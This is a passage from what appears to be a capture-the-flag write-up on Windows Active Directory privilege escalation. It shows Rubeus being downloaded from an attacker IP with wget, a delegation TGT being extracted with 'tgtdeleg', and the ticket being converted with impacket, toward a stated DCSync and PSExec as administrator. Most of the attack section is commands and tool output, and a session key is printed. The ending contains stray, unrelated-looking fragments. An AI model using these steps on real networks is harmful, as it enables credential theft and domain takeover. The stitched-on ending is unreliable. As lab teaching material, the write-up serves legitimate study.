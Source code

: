 The Service accounts are vulnerable to TGT delegation attacks using Rubeus because the service account is often configured with high privileges on the local system, such as the ability to create and modify user accounts and other system resources.

The idea is to get valid TGT (Ticket-Granting Ticket) for the service account, to perform a DCSync attack and then PSExec into the machine as administrator.

First I’ll upload Rubeus to the remove machine.

```
PS C:\Windows\System32\spool\drivers\color> wget 10.10.14.57/Rubeus.exe -o r.exe
```

Then I’ll use it to generate a TGT for the service account.

```
PS C:\Windows\System32\spool\drivers\color> .\r.exe tgtdeleg /nowrap
.\r.exe tgtdeleg /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/LOOKOUT-DC.LOOKOUT.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: CYLfo1W5+vf4ZTDXhdsbhxx6n45eG6ONzEKGryITLUg=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIF3jCCBdqgA<SNIIIIIIIIIP>AWoAMCAQGFM
```

I’ll save to my local machine and convert the ticket with `TicketConverter` from `impacket`.

```
hcue@pjsk:/tmp/wr » cat ticket| base64 -d > ticket.kirbi
hcue@pjsk:/tmp/wr » impacket-ticketConverter ticket.kirbi ticket.ccache
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname